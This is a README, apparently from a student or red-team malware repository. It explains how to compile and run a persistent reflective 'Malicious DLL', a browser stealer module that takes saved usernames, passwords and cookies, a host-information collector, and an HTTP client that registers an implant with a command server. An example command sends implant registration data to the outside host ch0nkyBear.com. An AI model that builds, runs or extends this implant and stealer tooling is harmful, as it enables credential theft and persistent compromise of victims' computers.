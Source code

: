 # README

## To Compile the Malicious DLL

* Go to: reflectivedll> realDLL folder
* Run make to compile the DLL
* In the Command line, run .\testmDll.exe maliciousdll.dll

![image](https://user-images.githubusercontent.com/42654496/146640361-6be06d31-90d5-4da0-8365-c3cb9340e07a.png)

* The Malicious DLL currently checks for the Chonky.txt file and is Persistent.
* It does NOT currently include the communicationfuncs.cpp and .h files because it would cause errors

## To display Browser Information - Stealer Functionality

* Go to: reflectivedll> realDLL folder
* Run make and then make run

![image](https://user-images.githubusercontent.com/42654496/146636733-2d760b85-ad8d-410a-9b82-33b12e30980f.png)

* Steals Login Data(username and password) and Cookies from the system and displays to console

![image](https://user-images.githubusercontent.com/42654496/146641105-73da78e4-6505-46e2-bf7b-0c53f2a10fc5.png)

## To get Situational Awareness info

* Go to: reflectivedll> TestingFeatures> getInfo folder
* Run make to build the infoTest executable
* In the command line, run .\infoTest.exe 

* This executable will print out the data of the current machine
* It is currently not a feature of the dll

## To make an HTTP Request to the Server

* Go to: reflectivedll> TestingFeatures > http folder
* Run make to build the http executable
* In the command line, run .\http.exe fqdn port uri useTLS payload payloadLength
* The payload should be a hex string that (before converted to hex), is in the format "guid=implantTest&username=TestUser&=computername=TestComputer\r\n"
* EX: .\http.exe ch0nkyBear.com 443 /register 1 "23478y9hfj874" 13

* Currently: Issues handling payloads on the server side
* testInfo.cpp is a file that includes example hex encoded payloads to try out
